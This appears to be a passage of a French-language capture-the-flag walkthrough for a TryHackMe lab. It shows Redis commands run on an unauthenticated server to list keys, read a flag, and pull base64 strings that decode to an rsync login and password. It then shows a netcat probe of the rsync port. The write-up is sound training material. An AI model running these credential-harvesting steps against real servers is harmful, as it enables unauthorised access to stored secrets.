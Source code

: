 Je vais verifier l'emplacement des données de Redis sur ce Server.

```sh
10.10.220.246:6379> config get dir
1) "dir"
2) "/var/lib/redis"
```

Nous utilisons les commandes `Redis` pour trouver et lire les clés internes. j'ai laisser le lien dans la Reference

```sh
10.10.220.246:6379> KEYS *
1) "int"
2) "tmp"
3) "internal flag"
4) "authlist"
5) "marketlist"
(0.65s)
10.10.220.246:6379> 
10.10.220.246:6379> GET "internal flag"
"THM{ff8e518addbbddb74531a724236a8221}"
```
Detail de ces commandes :
- J'ai utiliser le parametre `KEYS *`  pour Trouver toutes les clés disponible.
- Ensuite le `GET keyname` pour lire le key

```sh
10.10.220.246:6379> LRANGE marketlist 1 3
1) "Penetration Testing"
2) "Programming"
3) "Data Analysis"
(0.65s)
10.10.220.246:6379> 
10.10.220.246:6379> LRANGE authlist 1 3
1) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
2) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
3) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
```

- Ici j'utilise `LRANGE key start stop` pour Obtenir une plage d'éléments d'une liste

Je viens d'avoir un base64, donc je le decode dans le Terminal
```sh
# echo $base| base64 -d      
Authorization for rsync://rsync-connect@127.0.0.1 with password Hcg3HP67@TW@Bc72v
                                                                                   
```
on me renvoi dans un `rsync` et je vais utiliser l'outil `rsync` pour me connecter

```sh
# nc -nv 10.10.220.246 873 
(UNKNOWN) [10.10.220.246] 873 (rsync) open
@RSYNCD: 31.0
```
